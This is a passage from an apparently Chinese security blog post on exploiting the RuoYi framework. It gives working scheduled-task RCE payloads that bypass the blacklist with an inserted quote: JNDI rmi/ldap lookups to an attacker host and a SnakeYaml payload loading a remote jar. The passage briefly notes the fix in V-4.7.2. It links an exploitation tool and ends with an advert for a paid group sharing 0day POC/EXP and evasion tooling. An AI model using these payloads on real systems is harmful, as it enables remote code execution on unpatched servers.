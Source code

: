 没添加”‘“绕过  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5z0RsG3VTyOD5JE01bZRzGlkB4C76D5Cry8jGUYzlHHgWaGODUKK2n7eoPic7m40aqYGN6UlBmsyg/640?wx_fmt=png&from=appmsg "")  
  
添加”‘“绕过，只需要在协议字符串中间添加一个“’”即可，那么所有目标调用字符串可更改为  

```
rmi:org.springframework.jndi.JndiLocatorDelegate.lookup(‘r’mi://192.168.10.129:8888/Calc’)
ldap:javax.naming.InitialContext.lookup(‘ld’ap://192.168.10.129:8888/#Calc’)
SnakeYaml:org.yaml.snakeyaml.Yaml.load(‘!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [“ht’tp://192.168.31.246:8000/yaml-payload.jar”]]]]’)
```

  
测试通过，命令执行成功  
### 修复（V-4.7.2）  
  
直接对定时任务调用的类进行黑马名单限制  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5z0RsG3VTyOD5JE01bZRzG3LZgiauOZy8HUotZe9PSWGM3cAHquOe2F8U0ic93UtEVIbeneUiaNVkfg/640?wx_fmt=png&from=appmsg "")  
  
ruoyi综合漏洞利用工具下载  

```
https://t.zsxq.com/4hO8t
```

  
  
**0x03 总结**  
  
通过代码审计和漏洞复现，发现部分漏洞（如Shiro反序列化、SQL注入）在V-4.6.2及以上版本通过参数过滤或随机密钥得以修复，但SSTI、定时任务RCE等漏洞在特定版本（如V-4.7.1）仍可通过巧妙的绕过手法利用。  
喜欢这类文章或挖掘SRC技巧文章师傅可以点赞转发支持一下谢谢！后续会更新更多！  
  
  
**0x04 内部星球VIP介绍V1.4（更多未公开挖洞技术欢迎加入星球）**  
  
  
**如果你想学习更多另类渗透SRC挖洞技术/攻防/免杀/应急溯源/赏金赚取/工作内推/欢迎加入我们内部星球可获得内部工具字典和享受内部资源/内部群。**  
  
1.每周更新1day/0day漏洞刷分上分，目前已更新至4000+  
  
2.包含网上一些付费工具/各种插件BurpSuite漏洞检测插件/  
fuzz字典  
等等  
  
3.Fofa会员Ctfshow各种账号会员共享等等  
  
4.最新SRC挖掘/红队/代审/免杀/逆向视频资源等等  
  
5.2025  
HW漏洞POC/EXP分享地址：  
  
https://t.zsxq.com/Faujy  
  
...  
  
6.详情直接点击下方链接进入了解，后台回复"   
星球  
 "获取优惠先到先得！后续资源会更丰富在加入还是低价！（即将涨价）以上仅介绍部分内容还没完！**点击下方地址全面了解👇🏻**  
  